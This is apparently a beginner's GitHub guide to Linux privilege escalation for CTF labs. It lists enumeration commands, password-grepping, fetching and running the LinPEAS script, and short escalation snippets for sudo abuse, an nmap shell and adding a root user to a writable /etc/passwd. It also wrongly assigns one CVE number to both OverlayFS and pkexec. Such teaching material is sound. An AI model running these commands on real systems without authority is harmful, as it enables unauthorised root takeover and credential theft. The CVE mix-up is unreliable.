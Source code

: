 #linux #previlege-escalation #guide
It means moving from a low-privileged user (like `www-data` or `user`) to a higher one, such as `root`. After gaining a foothold on a Linux machine, you often need root access to read flags, view sensitive files, or fully take over the system. So, in this basic guide, you'll find resources including labs, writeups, and blogs. I'm open to suggestions and improvements in any form.

![I am Root](https://w0.peakpx.com/wallpaper/220/987/HD-wallpaper-groot-i-am-root-ubuntu-linux-terminal-hacker-computer-funny-groot.jpg)
### Core Sections

#### 1. **Enumeration Basics**
What to look for and why:
- Kernel version
    
- SUID/SGID binaries
    
- Writable files/folders
    
- Cron jobs
    
- Services/Processes
    
- Network access
    
- Environment variables
    
- Sudo permissions

### Basic Approach: The 6-Point Checklist

These six things are what you _always_ check when escalating privileges.

---

#### 1. **Check Kernel & OS Info**

Find out the kernel version — maybe it's old and vulnerable.
``` bash
uname -a
cat /proc/version
cat /etc/*release*
```
**Look for:** Known kernel exploits (e.g., Dirty Cow, Dirty Pipe)

---

#### 2. **Check for SUID/SGID Binaries**

SUID gives root-level access to a binary. If it’s misconfigured, you can exploit it.
``` bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```
**Common misused SUID binaries:** `nmap`, `vim`, `less`, `cp`, `bash`

---
#### 3. **Check for World-Writable or Misowned Files**

You might be able to edit or replace root-owned scripts or services.
``` bash
find / -writable -type f 2>/dev/null
find / -writable -type d 2>/dev/null
```
Also check for:
``` bash
ls -la /etc/passwd
ls -la /etc/shadow
```

---
#### 4. **Check for Running Services & Cron Jobs**

Misconfigured cron jobs are goldmines.
``` bash
ps aux
cat /etc/crontab
ls -la /etc/cron.*
```
Look for scripts run as root that you can modify.

---

#### 5. **Check for Passwords in Files**

Sometimes developers leave secrets behind.
``` bash
grep -Ri "password" /etc/*
grep -R "password" /home/* 2>/dev/null
```
Search `.bash_history`, config files, `.git` repos, or backup files (`.bak`, `~`)

---

#### 6. **Check for Abusable Capabilities**

Linux capabilities let binaries do special things even without being SUID.
``` bash
getcap -r / 2>/dev/null
```
Look for stuff like:
``` bash
cap_setuid+ep
cap_net_bind_service+ep
```


### Useful Tool

These automate a lot of the checks:
- LinPEAS
``` bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

### Learn These Exploits by Name

Know their names and search them by kernel version if needed:

- **Dirty Cow** – CVE-2016-5195
    
- **Dirty Pipe** – CVE-2022-0847
    
- **OverlayFS** – CVE-2021-4034
    
- **Polkit pkexec** – CVE-2021-4034
    
- **Cronjob misconfig**
    
- **Sudo misconfig / sudo without password**

## Common Misconfigurations

|Thing|What to look for|
|---|---|
|`sudo -l`|Run commands as root without password|
|Writable `/etc/passwd`|You can create a new root user manually|
|Custom services|Run as root but editable by you|
|Docker/LXC containers|Breakout possibilities|
### 🛠 Manual Exploit Examples

 1. Sudo abuse
``` bash
sudo -l
sudo /bin/bash   # If allowed
```
2. SUID binary (e.g., Nmap)
``` bash
nmap --interactive
!sh
```
3. Writable `/etc/passwd`
``` bash
openssl passwd "pass123"
# Add new line to /etc/passwd with uid=0
```

###  Labs to Practice

| Platform   | Lab Name                 | Notes                                      |
| ---------- | ------------------------ | ------------------------------------------ |
| TryHackMe  | “Linux PrivEsc”          | Beginner-friendly, step-by-step            |
| HackTheBox | “Beep”, “Lame”, “Bashed” | Realistic Linux privilege escalation paths |
| VulnHub    | “Basic Pentesting 1 & 2” | Classic local privilege escalation targets |
| Suggestion | -                        | -                                          |
### Solid Writeups

- [GTFOBins](https://gtfobins.github.io/) – SUID, sudo, and other abuses
    
- [0xdf’s](https://0xdf.gitlab.io/) HTB Writeups – Very methodical
    
- [HackTricks](https://book.hacktricks.wiki/en/index.html) – Encyclopedic
    
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) – Real use-case examples


---

### Blogs & Guides

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng) – LinPEAS is your best friend
- [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)
- [Decline](https://delinea.com/blog/linux-privilege-escalation) Privilege escalation on Linux
- [Vaadata](https://www.vaadata.com/blog/linux-privilege-escalation-techniques-and-security-tips/) Linux Privilege Escalation: Techniques and Security Tips


---

###  Suggested Structure for Each Technique

1. **What is it?**
    
2. **Why does it happen?**
    
3. **How to detect it?**
    
4. **How to exploit it?**
    
5. **Real-world example (link to writeup/lab)**

### Final Tips

- Always **enumerate properly** before launching any exploit.
    
- Keep a local copy of privilege escalation scripts.
    
- Practice on platforms like **Hack The Box**, **TryHackMe**, or **VulnHub**.